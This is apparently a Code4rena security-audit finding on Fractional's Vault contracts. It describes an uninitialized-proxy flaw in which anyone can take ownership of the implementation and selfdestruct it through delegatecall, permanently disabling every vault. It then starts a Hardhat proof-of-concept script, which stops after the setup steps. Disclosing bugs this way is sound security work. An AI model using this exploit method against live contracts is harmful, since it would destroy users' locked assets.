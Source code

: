 [https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/Vault.sol#L11-L25](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/Vault.sol#L11-L25)

### [](#vulnerability-details)Vulnerability Details

This is a basic uninitialized proxy bug, the `VaultFactory` creates a single implementation of `Vault` and then creates a proxy to that implementation every time a new vault needs to be deployed.

The problem is that that implementation vault is not initialized , which means that anybody can initialize the contract to become the owner, and then destroy it by doing a delegate call (via the `execute` function) to a function with the `selfdestruct` opcode. Once the implementation is destroyed all of the vaults will be unusable. And since there’s no logic in the proxies to update the implementation - that means this is permanent (i.e. there’s no way to call any function on any vault anymore, they’re simply dead).

### [](#impact)Impact

This is a critical bug, since ALL assets held by ALL vaults will be lost. There’s no way to transfer them out and there’s no way to run any function on any vault.

Also, there’s no way to fix the current deployed contracts (modules and registry), since they all depend on the factory vault, and there’s no way to update them to a different factory. That means Fractional would have to deploy a new set of contracts after fixing the bug (this is a relatively small issue though).

### [](#proof-of-concept)Proof of Concept

I created the PoC based on the `scripts/deploy.js` file, here’s a stripped-down version of that:

    const { ethers } = require("hardhat");
    
    const ZERO_ADDRESS = "0x0000000000000000000000000000000000000000";
    
    async function main() {
        const [deployer, attacker] = await ethers.getSigners();
    
        // Get all contract factories
        const BaseVault = await ethers.getContractFactory("BaseVault");
        const Supply = await ethers.getContractFactory("Supply");
        const VaultRegistry = await ethers.getContractFactory("VaultRegistry");
    
        // Deploy contracts
    
        const registry = await VaultRegistry.deploy();
        await registry.deployed();
    
        const supply = await Supply.deploy(registry.address);
        await supply.deployed();
    
        // notice that the `factory` var in the original `deploy.js` file is a different factory than the registry's
        const registryVaultFactory = await ethers.getContractAt("VaultFactory", await registry.factory());
    
        const implVaultAddress = await registryVaultFactory.implementation();
        const vaultImpl = await ethers.getContractAt("Vault", implVaultAddress);
    